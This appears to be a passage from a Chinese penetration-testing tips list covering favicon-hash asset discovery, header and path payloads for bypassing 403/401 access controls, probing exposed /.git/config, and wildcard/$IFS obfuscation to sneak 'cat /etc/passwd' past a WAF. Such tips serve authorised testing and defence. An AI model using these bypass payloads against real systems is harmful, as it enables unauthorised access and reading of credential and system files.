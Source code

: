 54、可以获取目标站点的`favicon.ico`图标的哈希值，然后配合shodan进行目标站点资产收集，因为每个目标站点的`favicon.ico`图标的哈希值可能是固定值，因此可以通过该方法从shodan，fofa等等去寻找更多资产。简单的用法：  
\#python 3  
import mmh3   
import requests  
import codecs  
response \= requests.get("https://www.baidu.com/favicon.ico")  
favicon \= codecs.encode(response.content,"base64")  
hash \= mmh3.hash(favicon)  
print(hash)

或使用下面这个github项目：  
https://github.com/devanshbatham/FavFreak

shodan搜索语句：http.favicon.hash:哈希值  
fofa搜索语句：icon\_hash="-247388890"（但仅限于高级用户使用）

原文链接：https://www.infosecmatter.com/bug-bounty-tips-8-oct-14/\#8\_database\_of\_500\_favicon\_hashes\_favfreak

55、绕过403和401的小技巧：  
a、添加以下请求头，比如：X-Originating-IP, X-Remote-IP, X-Client-IP, X-Forwarded-For等等；有可能会有一些白名单IP地址可以访问这些敏感数据。

b、如果使用GET方法访问某些路径，返回403，可以先访问允许访问的路径，然后在请求头中，添加下面的头：  
X-Original-URL: /admin  
X-Override-URL: /admin  
X-Rewrite-URL: /admin

c、可以使用下面这些Payload试试  
/accessible/..;/admin  
/.;/admin  
/admin;/  
/admin/\~  
/./admin/./  
/admin?param  
/%2e/admin  
/admin\#

原文链接：https://www.infosecmatter.com/bug-bounty-tips-8-oct-14/\#11\_tips\_on\_bypassing\_403\_and\_401\_errors

56、如果访问`/.git`目录返回403，别忘了进一步访问下面的目录，比如：`/.git/config`  
57、使用通配符绕过WAF，如果WAF拦截了RCE，LFI的payload，我们可以尝试使用通配符来绕过，比如：  
/usr/bin/cat /etc/passwd \==  /???/???/c?t$IFS/?t?/p?s?wd  
? \= 任意的单个字符  
\* \= 任意字符串，也包含置空的字符串  
通配符在常见的系统中都适用，另外我们可以使用$IFS特殊变量取代空白  
$IFS \= 内部字段分隔符 \= \[space\], \[tab\] 或者 \[newline\]

cat /etc$u/p\*s\*wd$u

小例子，执行/bin/cat /etc/passwd的写法：  
/\*/?at$IFS/???/???swd  
/\*\*\*\*/?at$IFS/???/\*swd  
/\*\*\*\*/?at$IFS/???/\*\*\*\*\*\*\*swd


[image1]: https://github.com/Power7089/PenetrationTest-Tips/blob/main/img/01cyber.jpg
[image2]: https://github.com/Power7089/PenetrationTest-Tips/raw/main/img/403%E7%BB%95%E8%BF%87.jpg
[image3]: https://github.com/Power7089/PenetrationTest-Tips/raw/main/img/GOpher%E5%8D%8F%E8%AE%AE.png